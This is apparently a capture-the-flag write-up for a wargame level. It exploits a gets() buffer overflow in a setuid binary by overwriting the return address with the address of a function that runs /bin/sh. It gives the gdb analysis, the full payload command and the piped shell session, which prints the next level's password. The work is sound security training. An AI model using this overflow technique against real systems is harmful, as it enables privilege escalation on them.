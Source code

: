 # Level 1

## First clue
- once logged in as level1 we find a `level1` file, owned by `level2`:
- `level1` is an executable
- we try to execute it without arguments and we get the prompt back
- nothing happens if we write something

## Inspect with gdb
- we check the functions in the executable. the presence of gets() function reveals a potential vulnerability (`fget()` is more safe)
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main

```
- there are two main functions, `main` and `run`
- first we inspect main
## Main
```
  (gdb) disas main
  Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

```
- <+6> subtracts 80 bytes from the esp register, which is the variable used by the CPU to keep track of the stack pointer. This instruction allocates 80 bytes on the stack for a variable.
- <+16> calls the gets() function, using as an argument the buffer whose address has been pushed onto the stack in the previous instruction (+13), as is customary just before calling a function.
- <+21> and <+22> restore the control flow back to the runtime where the main function had been called, effectively updating the instruction pointer (eip) with the address stored in the return address located in the stack frame.
- the return is where we can operate, because we want to overwrite the return address (stored in `eip`) taking advantage of the fct that the gets() function doesnt't check the length of the buffer and if we write in the buffer a number of bytes higher than what the program has allocate we can rite directly in the `eip`
- to do that we need 2 things: 
    1. know exactly the offset of the buffer (we know that 80 bytes has been allocated but not exactly the offset). 
    2. which payload to execute and how. sure we need to find a way to execute `cat /user/level2/home/.pass` as `level2`but how?

## How to get the offset 
- we create a pattern of 80 characters (the same number of bytes allocated being 1 char = 1 byte) and save it i na file in the only place where we can save data: `python -c'print"a"*81' > /tmp/pattern`
- we pass this pattern as argument of ./level1 using gdb: 
    ``` 
    gdb ./level1
    run < /temp/pattern
    ```
    and we get the address returned by the program causing the segfault:
    ```
    Starting program: /home/user/level1/level1 </tmp/pattern

    Program received signal SIGSEGV, Segmentation fault.
    0x61616161 in ?? ()
    ```
- since `61` is the ASCII for the character "a" we can constate that the address contains actually 4 "a" characters, that means that 80 - 4 = the exact point where the buffer is overflowed = 76
- to confirm that we use the `info registers` gdb command:
    ```
    (gdb) info registers
    eax            0xbffff6e0	-1073744160
    ecx            0xb7fd28c4	-1208145724
    edx            0xbffff6e0	-1073744160
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff730	0xbffff730
    ebp            0x61616161	0x61616161
    esi            0x0	0
    edi            0x0	0
    eip            0x61616161	0x61616161
    eflags         0x210286	[ PF SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
    ```
## Which payload to execute
- we inspect the run function
```
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```
- <+41>, <+46>, and <+53> are the most critical instructions within the run function. The `fwrite` function writes data to a file stream, and the subsequent system call indicates the execution of a shell command. But what shell command is being executed? To determine this, we inspect the argument passed to the system function:
    ```
    (gdb) x/s 0x8048584
    0x8048584:	 "/bin/sh"
    ```
- and we find out that the shell command is the shell executable
- ok so if we pass the address where the run function start as return of the main function we can actually execute /bin/sh 

### Buffer overflow return overwriting:
- we get the run function start address from the `info function` or `disas run` cmd output: `0x08048444  run`
- we create a file containing 76 char + the address of run function reversing it (for little endian):
`python -c 'print"a"*76+"\x44\x84\x04\x08"' > /tmp/exploit`
- we pass the `exploit` file as argument to `./level1`and we get a response `Good... Wait what?`but after that a segfault.
- we have to find a way to keep the stdin open after cat reads from the file, ensuring the program doesn't crash when system tries to read from it: `cat /tmp/exploit - | ./level1`
## Solution
- this way the prompt is returned to us and we can try to cat the .pass of level2:
```
cat /tmp/exploit - | ./level1
Good... Wait what?
> whoami
level2
> cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
